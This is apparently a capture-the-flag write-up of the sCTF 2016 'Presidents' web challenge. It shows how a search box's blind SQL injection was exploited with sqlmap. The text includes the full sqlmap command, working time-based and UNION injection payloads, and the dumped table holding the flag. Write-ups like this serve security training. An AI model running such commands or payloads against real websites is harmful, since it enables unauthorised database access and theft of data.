 ### Solved by z0rex

Presidents was a web challenge worth 40 points.

> I just created a site with a list of popular presidential candidates!

We're greated with a list of candidates and a search box

![Screenshot 01](/images/2016/sctf/presidents/01.png)

Messing with the search field reveals that it's vulnerable to blind SQL injection.

![Screenshot 02](/images/2016/sctf/presidents/02.png)

![Screenshot 03](/images/2016/sctf/presidents/03.png)

So, because I'm a lazy person, and really hate blind injections I turned to SQLmap.

After getting the databases and the one table I dumped the content of `candidates`

```
# sqlmap -u "http://president.sctf.michaelz.xyz/" --data="search=*" --dbms=mysql -D sctf_injection -T candidates --dump-all
         _
 ___ ___| |_____ ___ ___  {1.0.4.0#dev}
|_ -| . | |     | .'| . |
|___|_  |_|_|_|_|__,|  _|
      |_|           |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 18:48:30

custom injection marking character ('*') found in option '--data'. Do you want to process it? [Y/n/q] 
[18:48:30] [INFO] testing connection to the target URL
[18:48:31] [INFO] heuristics detected web page charset 'ascii'
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* ((custom) POST)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (SELECT)
    Payload: search=') AND (SELECT * FROM (SELECT(SLEEP(5)))Coki) AND ('tGUl'='tGUl

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: search=') UNION ALL SELECT NULL,NULL,CONCAT(0x71626b7671,0x596d715659574d714d6f6f635a45787879714979666a4c584f4a7454464a574c41737963557a5479,0x716a7a6a71),NULL,NULL,NULL,NULL-- -
---
[18:48:31] [INFO] testing MySQL
[18:48:31] [INFO] confirming MySQL
[18:48:31] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL >= 5.0.0
[18:48:31] [INFO] sqlmap will dump entries of all tables from all databases now
[18:48:31] [INFO] fetching tables for database: 'sctf_injection'
[18:48:31] [INFO] fetching columns for table 'candidates' in database 'sctf_injection'
[18:48:31] [INFO] fetching entries for table 'candidates' in database 'sctf_injection'
[18:48:31] [INFO] analyzing table dump for possible password hashes
Database: sctf_injection
Table: candidates
[6 entries]
+----+------+----------------------------------------------------------------------+------------+---------+------------------------------------------------+---------+
| id | hide | pic                                                                  | party      | last    | comment                                        | first   |
+----+------+----------------------------------------------------------------------+------------+---------+------------------------------------------------+---------+
| 1  | 0    | http://www.politics1.com/pix2/clinton-2016.jpg                       | Democratic | Clinton | <blank>                                        | Hillary |
| 2  | 0    | http://www.politics1.com/pix2/berniesanders.jpg                      | Democratic | Sanders | <blank>                                        | Bernie  |
| 3  | 0    | http://www.politics1.com/pix2/TedCruz.jpg                            | Republican | Cruz    | <blank>                                        | Ted     |
| 4  | 0    | http://www.politics1.com/pix2/Kasich16.jpg                           | Republican | Kasich  | <blank>                                        | John    |
| 5  | 0    | http://www.politics1.com/pix2/trump.jpg                              | Republican | Trump   | <blank>                                        | Donald  |
| 6  | 1    | https://rosettastoneweb.files.wordpress.com/2015/11/vforvendetta.jpg | Anonymous  | Hacker  | sctf{why_do_people_still_make_sites_like_this} | The     |
+----+------+----------------------------------------------------------------------+------------+---------+------------------------------------------------+---------+
```

Here we can also see that SQLmap reports that it's vulnerable to union injection 
with a closing parentecy. Should probably have caught that, but it's still a win.

Now, if we look in the comment column we can see the flag on row 6.

Flag: `sctf{why_do_people_still_make_sites_like_this}`